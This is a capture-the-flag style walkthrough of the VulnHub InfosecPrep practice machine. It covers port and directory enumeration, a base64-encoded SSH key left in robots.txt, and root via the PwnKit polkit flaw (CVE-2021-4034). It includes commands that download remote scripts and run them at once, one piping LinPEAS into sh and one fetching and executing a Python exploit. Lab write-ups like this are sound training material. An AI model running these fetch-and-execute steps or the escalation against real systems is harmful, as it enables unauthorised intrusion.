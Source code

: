 # InfosecPrep

## Introduction

This <a href="https://www.vulnhub.com/entry/infosec-prep-oscp,508/">box</a> is meant to be an introduction to pentesting, and is designed to get players familiar with privilege escalation on outdated linux systems.

## Informations

### Key Processes
The machine is hosting a wordpress website
<img src="page.png">
and has 3 open ports :
<img src="assets/ports.png">


## Writeup

### Enumeration

#### nmap
```
sudo nmap -A -O -Pn -p- -T4 -sV 192.168.84.11
```
<img src="assets/enum.png"><br>
Browsing to port 80 takes us to the wordpress website's homepage, which has a very important information which is the username that we're going to use later. <br>

#### Getting into the machine
I tried brute forcing directories to find files or directories that could hold some pieces of information: <br>
```
gobuster -w ./wordslist2.txt -u 192.168.84.11
```
<img src="assets/gobuster.png"><br>
After checking those files, robots.txt had the clue we were looking for : <br>
<img src="assets/robots.png"><br>
<img src="assets/secret.png"><br>
At first glance, it looked like an ssh private key, so I tried to decipher the code using <a href="https://gchq.github.io/CyberChef/">Cyberchef</a> And found that it was an ssh private key base64 encrypted. <br>
```
base64 key -d > private.txt
```
After finding the private key it was time to access the machine using the username that was given to us: 
```
ssh -i private.txt oscp@192.168.84.11
```
And we're finally in 
<img src="assets/machine.png"><br>
It was time then to run <a href="https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS">LinPEAS</a> and check for any vulnabilities that could give us root access to the machine.
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
The system seemed to be full of vulnerabilities that could be exploited to gain control of the machine, one of them was the <a href="https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034">polkit vulnerability </a>(CVE-2021-4034).

<img src="assets/info.png"><br>
Exploits written in C couldn't work since there were not any C compilers intalled on the machine, so I either had to use the binaries or get an exploit written in a language that can be compiled/interpreted on the machine and in this case python.<br>
Exploit: https://github.com/joeammond/CVE-2021-4034
```
curl https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py --output exploit.py && python3 exploit.py
```
And voila! We've finally gained control of root and can get the flag from /root
<img src="assets/root.png">
